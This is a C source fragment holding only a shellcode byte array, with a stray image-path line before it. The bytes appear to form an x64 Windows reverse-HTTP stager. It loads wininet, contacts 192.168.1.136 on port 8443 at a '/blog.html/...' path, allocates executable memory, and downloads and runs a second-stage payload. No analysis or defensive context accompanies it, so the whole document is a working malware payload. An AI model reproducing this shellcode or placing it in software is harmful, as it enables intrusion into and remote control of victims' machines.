 
unsigned char buf[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18"
"\x48\x8b\x52\x20\x56\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f"
"\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0"
"\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x56\x48\xff\xc9\x4d\x31\xc9\x41\x8b\x34\x88"
"\x48\x01\xd6\x48\x31\xc0\x41\xc1\xc9\x0d\xac\x41\x01\xc1"
"\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8"
"\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x41\x58\x48\x01"
"\xd0\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83"
"\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9"
"\x4b\xff\xff\xff\x5d\x48\x31\xdb\x53\x49\xbe\x77\x69\x6e"
"\x69\x6e\x65\x74\x00\x41\x56\x48\x89\xe1\x49\xc7\xc2\x4c"
"\x77\x26\x07\xff\xd5\x53\x53\x48\x89\xe1\x53\x5a\x4d\x31"
"\xc0\x4d\x31\xc9\x53\x53\x49\xba\x3a\x56\x79\xa7\x00\x00"
"\x00\x00\xff\xd5\xe8\x0e\x00\x00\x00\x31\x39\x32\x2e\x31"
"\x36\x38\x2e\x31\x2e\x31\x33\x36\x00\x5a\x48\x89\xc1\x49"
"\xc7\xc0\xfb\x20\x00\x00\x4d\x31\xc9\x53\x53\x6a\x03\x53"
"\x49\xba\x57\x89\x9f\xc6\x00\x00\x00\x00\xff\xd5\xe8\x8e"
"\x00\x00\x00\x2f\x62\x6c\x6f\x67\x2e\x68\x74\x6d\x6c\x2f"
"\x65\x61\x73\x65\x44\x5a\x41\x72\x36\x2d\x6c\x72\x52\x32"
"\x70\x46\x44\x65\x4e\x74\x79\x67\x43\x4d\x4e\x4d\x5a\x4d"
"\x63\x6e\x72\x42\x38\x4d\x4c\x77\x6f\x75\x4f\x35\x45\x75"
"\x44\x72\x65\x66\x46\x75\x34\x50\x69\x73\x76\x37\x7a\x48"
"\x48\x37\x56\x6c\x6d\x70\x2d\x31\x57\x70\x4e\x51\x36\x6b"
"\x36\x56\x4d\x50\x79\x6c\x58\x74\x53\x6f\x66\x54\x76\x48"
"\x54\x6c\x4e\x43\x35\x61\x61\x66\x67\x45\x51\x62\x50\x4b"
"\x44\x36\x48\x64\x31\x76\x4d\x4b\x51\x64\x71\x69\x55\x31"
"\x71\x72\x2d\x46\x6d\x7a\x47\x4a\x61\x68\x6b\x36\x57\x59"
"\x50\x70\x34\x46\x00\x48\x89\xc1\x53\x5a\x41\x58\x4d\x31"
"\xc9\x53\x48\xb8\x00\x32\xa8\x84\x00\x00\x00\x00\x50\x53"
"\x53\x49\xc7\xc2\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x6a"
"\x0a\x5f\x48\x89\xf1\x6a\x1f\x5a\x52\x68\x80\x33\x00\x00"
"\x49\x89\xe0\x6a\x04\x41\x59\x49\xba\x75\x46\x9e\x86\x00"
"\x00\x00\x00\xff\xd5\x4d\x31\xc0\x53\x5a\x48\x89\xf1\x4d"
"\x31\xc9\x4d\x31\xc9\x53\x53\x49\xc7\xc2\x2d\x06\x18\x7b"
"\xff\xd5\x85\xc0\x75\x1f\x48\xc7\xc1\x88\x13\x00\x00\x49"
"\xba\x44\xf0\x35\xe0\x00\x00\x00\x00\xff\xd5\x48\xff\xcf"
"\x74\x02\xeb\xaa\xe8\x6d\x00\x00\x00\x53\x48\x89\xe2\x53"
"\x49\x89\xe1\x6a\x04\x41\x58\x48\x89\xf1\x49\xba\x12\x96"
"\x89\xe2\x00\x00\x00\x00\xff\xd5\x85\xc0\x74\xdc\x48\x83"
"\xc4\x28\x53\x59\x5a\x48\x89\xd3\x6a\x40\x41\x59\x49\xc7"
"\xc0\x00\x10\x00\x00\x49\xba\x58\xa4\x53\xe5\x00\x00\x00"
"\x00\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x49"
"\x89\xc0\x48\x89\xda\x49\x89\xf9\x49\xba\x12\x96\x89\xe2"
"\x00\x00\x00\x00\xff\xd5\x48\x83\xc4\x20\x85\xc0\x0f\x84"
"\x90\xff\xff\xff\x58\xc3\x58\x6a\x00\x59\xbb\xe0\x1d\x2a"
"\x0a\x41\x89\xda\xff\xd5";
